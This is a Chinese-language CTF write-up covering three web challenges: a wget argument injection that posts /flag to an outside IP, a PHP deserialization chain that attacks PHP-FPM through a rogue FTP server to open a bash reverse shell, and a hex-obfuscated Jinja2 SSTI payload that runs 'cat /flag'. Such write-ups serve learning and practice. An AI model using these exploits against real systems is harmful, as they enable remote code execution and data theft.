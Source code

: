 ```yaml
---
title: "陇原战疫CTF Wp"
slug: "longyuanzhanyi-ctf-wp"
description: "剩下的是nodejs和java，我先爬为敬"
date: 2021-11-16T14:24:03+08:00
categories: ["CTF"]
series: []
tags: ["wp"]
draft: false
toc: true
---
```


## CheckIN

是个go的文件，发现了/wget路由可以执行wget命令，接收的参数可以是个数组

![image-20211116141624569](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211116141624569.png)

利用wget的参数外带flag

```
/wget?argv=1&agrv=--post-file&argv=/flag&agrv=http://101.35.114.107:8426/
```

![image-20211116142102694](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211116142102694.png)

## eaaasyphp

```php
<?php

class Check {
    public static $str1 = false;
    public static $str2 = false;
}


class Esle {
    public function __wakeup()
    {
        Check::$str1 = true;
    }
}


class Hint {

    public function __wakeup(){
        $this->hint = "no hint";
    }

    public function __destruct(){
        if(!$this->hint){
            $this->hint = "phpinfo";
            ($this->hint)();
        }
    }
}


class Bunny {

    public function __toString()
    {
        if (Check::$str2) {
            if(!$this->data){
                $this->data = $_REQUEST['data'];
            }
            file_put_contents($this->filename, $this->data);
        } else {
            throw new Error("Error");
        }
    }
}

class Welcome {
    public function __invoke()
    {
        Check::$str2 = true;
        return "Welcome" . $this->username;
    }
}

class Bypass {

    public function __destruct()
    {
        if (Check::$str1) {
            ($this->str4)();
        } else {
            throw new Error("Error");
        }
    }
}

if (isset($_GET['code'])) {
    unserialize($_GET['code']);
} else {
    highlight_file(__FILE__);
}
```

这个题，怎么说 还是我太年轻了 我以为这个就是简单的反序列化+shell写入，然后非常的疑惑为啥本地可以但是远程的shell死活就是不落地，一直在想怎么绕过，这是当时尝试的exp.php

```php
<?php
class Check {
    public static $str1 = false;
    public static $str2 = false;
}
class Esle {
    public $str3;
}
class Bunny {
    public $filename;
    public $data;
}
class Welcome {
    public $username;
}
class Bypass {
    public $str4;
}

$check = new Check();
$esle = new Esle();
$bypass = new Bypass();
$welcome = new Welcome();
$bunny = new Bunny();

$esle -> str3 = $bypass;
// $bypass -> str4 = 'phpinfo';
$bypass -> str4 = $welcome;
$welcome -> username = $bunny;
$bunny -> filename = "op.php";
$bunny -> data = "xyz"

$payload = serialize($esle);
echo $payload;
```

直到赛后才知道这又又又是fpm，需要用ftp打fpm，具体的内容我最近也正在总结，可以参见->[攻击 PHP-FPM 学习笔记](https://amiaaaz.github.io/2021/11/15/attack-php-fpm-study-notes/)（还没全部收尾）

首先是依据p牛的脚本生成一个urlencode的payload（这里引号有问题的话直接改脚本吧）

```bash
$ python fpm.py 127.0.0.1 '/var/www/html/index.php' -c '<?php exec("bash -c \'/bin/bash -i >& /dev/tcp/101.35.114.107/8426 0>&1\'");?>'
```

然后开一个恶意的ftp-server

```python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind(('0.0.0.0', 8001))
s.listen(1)
conn, addr = s.accept()
conn.send(b'220 welcome\n')
#Service ready for new user.
#Client send anonymous username
#USER anonymous
conn.send(b'331 Please specify the password.\n')
#User name okay, need password.
#Client send anonymous password.
#PASS anonymous
conn.send(b'230 Login successful.\n')
#User logged in, proceed. Logged out if appropriate.
#TYPE I
conn.send(b'200 Switching to Binary mode.\n')
#Size /
conn.send(b'550 Could not get the file size.\n')
#EPSV (1)
conn.send(b'150 ok\n')
#PASV
conn.send(b'227 Entering Extended Passive Mode (127,0,0,1,0,9000)\n') #STOR / (2)
conn.send(b'150 Permission denied.\n')
#QUIT
conn.send(b'221 Goodbye.\n')
conn.close()
print("endd")
```

修改之前的反序列化exp

```php
<?php
class Bunny{
    public function __construct(){
        $this->data = urldecode('xxxxxxxxxxxxxxxxxx');
        $this->filename = "ftp://101.35.114.107:8001/aaa";
    }
}

class Welcome{
    public function __construct(){
        $this->username = new Bunny();
    }
}

class Bypass{
    public function __construct(){
        $this->str4 = new Welcome();
    }
}

class Esle{
}

echo urlencode(serialize(array(new Esle(), new Bypass())));
```

get方式传入，同时vps上开一个ftp-server和一个监听反弹shell的端口，即可拿flag

![image-20211116141329800](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211116141329800.png)

## MagicMail

原题，ssti套壳，参见->[[DeconstruCTF 2021]Mega Mailer](https://amiaaaz.github.io/2021/10/30/deconstructf2021-wp/#webmega-mailer)，但是比赛的时候我没出，是我的问题，平时拿现成的payload梭惯了，自己构造的时候就露了怯

payload的构造参见->[Jinja2 SSTI filter bypasses](https://medium.com/@nyomanpradipta120/jinja2-ssti-filter-bypasses-a8d3eb7b000f)，使用`attr()`+hex字符串的方式把基础payload给拼出来

```
sender=&receiver=&subject=&message={{()|attr("\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f")|attr("\x5f\x5f\x62\x61\x73\x65\x5f\x5f")|attr("\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f")()|attr("\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f")(180)|attr("\x5f\x5f\x69\x6e\x69\x74\x5f\x5f")|attr("\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f")|attr("\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f")("\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f")|attr("\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f")("\x65\x76\x61\x6c")("\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x27\x6f\x73\x27\x29\x2e\x70\x6f\x70\x65\x6e\x28\x27\x63\x61\x74\x20\x2f\x66\x6c\x61\x67\x27\x29\x2e\x72\x65\x61\x64\x28\x29")}}
```

```python
# 原本的样子
().__class__.__base__.subclasses()[180].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('cat /flag').read()")
```
